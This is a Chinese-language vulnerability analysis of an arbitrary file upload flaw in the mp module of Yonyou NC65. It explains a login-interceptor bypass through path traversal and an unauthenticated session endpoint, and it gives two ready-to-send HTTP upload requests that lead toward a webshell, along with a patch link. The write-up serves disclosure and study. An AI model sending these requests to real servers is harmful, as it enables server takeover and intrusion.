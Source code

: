 

# 用友 NC mp 模块文件上传漏洞分析 - 先知社区

用友 NC mp 模块文件上传漏洞分析

- - -

## 漏洞描述

通过 mp 模块进行任意文件上传，从而上传 webshell 实现控制服务器。

## 影响版本

用友 NC65

## 漏洞分析

配置文件`hotwebs/mp/WEB-INF/spring-mvc.xml`

拦截器

```bash
<mvc:interceptors>
    <mvc:interceptor>
        <mvc:mapping path="/**" />
        <bean id="loginInterceptor" class="com.yonyou.uap.mp.interceptor.LoginInterceptor" />
    </mvc:interceptor>
</mvc:interceptors>
```

在 \\hotwebs\\mp\\WEB-INF\\lib\\uap.mp.core-0.1.0.jar

```bash
public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
    HttpSession session = request.getSession();
    Object logined = session.getAttribute("user_logined");
    String url = request.getRequestURL().toString();
    if (!url.endsWith("mp/") && !url.endsWith("mp")) {
        if (url.endsWith("index.html")) {
            if (logined == null) {
                response.sendRedirect(request.getContextPath() + "/login.html");
                return false;
            } else {
                return true;
            }
        } else if (!(handler instanceof HandlerMethod)) {
            return true;
        } else {
            HandlerMethod handler2 = (HandlerMethod)handler;
            ResponseBody json = (ResponseBody)handler2.getMethodAnnotation(ResponseBody.class);
            String msg = "";
            boolean flag = false;
            logger.info(">>>: " + url);
            String[] arr$ = IGNORE_URI;
            int len$ = arr$.length;

            for(int i$ = 0; i$ < len$; ++i$) {
                String s = arr$[i$];
                if (url.contains(s)) {
                    flag = true;
                    break;
                }
            }

            if (!flag) {
                msg = this.autoLogin(request);
                if (logined == null) {
                    msg = StringUtils.isNotEmpty(msg) ? msg : "<a href='/mp/logout' class='tips_login'>您未登录或长时间未操作,请先登录<a/>";
                    if (null == json) {
                        if (url.indexOf("indexforportal") >= 0) {
                            response.sendRedirect("/mp?indexforportallogin=portallogin");
                        } else {
                            response.sendRedirect("/mp");
                        }
                    } else {
                        MPUtils.sendResponseMsg(response, false, msg);
                    }
                } else {
                    flag = true;
                }
            }

            return flag;
        }
    } else if (logined == null) {
        response.sendRedirect(request.getContextPath() + "/login.html");
        return false;
    } else {
        return true;
    }
}
```

首先通过`request.getRequestURL().toString()`拿到 url 路径（不带参数），如果 url 不是以`mp/`和`mp`结尾，进入 if，

`if (url.endsWith("index.html"))`判断是否登录，登陆状态不拦截，否则拦截。

`else if (!(handler instanceof HandlerMethod))` HandlerMethod 是 Spring MVC 中用于表示控制器方法的类，如果请求的不是一个控制器方法，那么放行。正常来说我们请求接口是某个特定的控制器，所以一般在未登录状态下，请求后端接口时，会进入 else 循环，

```bash
HandlerMethod handler2 = (HandlerMethod)handler;
ResponseBody json = (ResponseBody)handler2.getMethodAnnotation(ResponseBody.class);
```

尝试从该方法上获取 `@ResponseBody` 注解的信息。如果方法上存在 `@ResponseBody` 注解，它将返回 `@ResponseBody` 注解的实例，否则将返回 `null`。比如说 json 形式。

```bash
private static final String[] IGNORE_URI = new String[]{"/initcfg", "/login", "/index", "/automsg", "/loginxietong", "/loginportal", "/signportal", "/loginportaldetail", "/loginportalmobile"};
```

接下来在`url.contains(s)`会判断 url 中是否存在`IGNORE_URI`中的内容，如果包含，将 flag 设置为 true，跳过 `if (!flag)` 最终放行 `return flag;`。

那么我们如果构造 url `/mp/login/../xxxx`（假设 xxx 为某控制器方法），在 tomcat 处理中会将 url 处理为 `/mp/xxxx`，而`request.getRequestURL()`和`request.getRequestURI()`，这些危险字符并不会自动剔除掉，这里又符合 上边的流程导致鉴权被绕过。当然 `login` 可换成 `IGNORE_URI`数组中的任意内容

后续在控制器方法中找到 `UploadFileServlet::doPost`，恰好可上传任意文件  
[![](assets/1702521001-aace206d5732a41c9fea71b5b57ea9c2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231211174121-70f7dc9c-9809-1.png)

也可以配合`/mp/loginxietong?username=admin`直接获取 session，然后利用拿到的凭据通过鉴权。

```bash
@ResponseBody
@RequestMapping(
    value = {"/loginxietong"},
    method = {RequestMethod.GET}
)
public ModelAndView login(@RequestParam("username") String username, HttpServletRequest request) {
    HttpSession session = request.getSession();
    SessionUser user = new SessionUser();
    user.setUserCode(username);
    user.setAdmin(false);
    user.setName(username);
    session.setAttribute("user_logined", user);
    logger.info("协同用户登录===>" + username);
    return new ModelAndView("redirect:/indexforxietong.html");
}
```

## 漏洞复现

绕过鉴权

```bash
POST /mp/login/../uploadControl/uploadFile HTTP/1.1
Host: host
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Length: 314

------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="file"; filename="test.jsp"
Content-Type: application/octet-stream

test content
------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundaryoDIsCqVMmF83ptmp
```

路径是 `` `/mp/uploadFileDir/test.jsp ``

另一种方法：

先获取 cookie：url+/mp/loginxietong?username=admin

```bash
POST /mp/uploadControl/uploadFile HTTP/1.1
Host: host
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=0884AE37CCD3416B96C5546D03E67F10.server; mp_name=admin;JSESSIONID=F5E62B60F069DA492605F276E527A71C.server
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Length: 314

------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="file"; filename="test.jsp"
Content-Type: application/octet-stream

test content
------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundaryoDIsCqVMmF83ptmp
```

## 漏洞修复

打相关补丁即可。  
[https://security.yonyou.com/#/noticeInfo?id=342](https://security.yonyou.com/#/noticeInfo?id=342)
